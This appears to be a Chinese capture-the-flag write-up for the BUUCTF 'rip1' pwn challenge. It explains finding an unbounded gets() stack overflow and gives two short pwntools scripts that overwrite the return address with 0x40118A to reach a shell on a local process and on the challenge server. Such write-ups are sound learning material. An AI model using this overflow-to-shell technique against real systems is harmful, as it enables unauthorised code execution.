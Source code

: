 ```yaml
---
title: rip1
author: Stan
date: 2020-09-17 19:00:33 +0800
categories: [BUUCTF,Pwn]
tags: [Pwn]
---
```


## 过程

先`checksec`，发现保护都没开

![2020-09-17_15-09-45](../assets/img/posts/2020-09-17_15-09-45.png)

打开`IDA64`

搜索字符串，发现**/bin/sh**

查交叉引用，最后发现这里![2020-09-17_19-15-52](../assets/img/posts/2020-09-17_19-15-52.png)

system也有了，根据题目名字，只要栈溢出，rip覆盖成40118A就行了

![image-20200917192213258](../assets/img/posts/image-20200917192213258.png)

很明显gets函数没有限制输入，存在溢出点

![image-20200917192549256](../assets/img/posts/image-20200917192549256.png)

之后查看栈，发现只要覆盖15+8就可以了

## Exploit

````python
from pwn import *

a=process('./pwn1')

a.recvuntil("please input")

a.sendline(b"a" * 23 + p64(0x40118A))

a.interactive()
````

这是本地调试，非常成功，但是跑remote会无反应

怀疑是服务器文件和下发的文件不同，需要猜测代码

先nc过去查看程序逻辑

![image-20200917194052156](../assets/img/posts/image-20200917194052156.png)

应该就是把puts和gets的位置反了一下，调整一下exp

````python
from pwn import *

a=remote('node3.buuoj.cn',27250)

a.sendline(b"a" * 23 + p64(0x40118A))

a.interactive()
````

因为顺序反了，所以直接send就行

![image-20200917194310546](../assets/img/posts/image-20200917194310546.png)

得到flag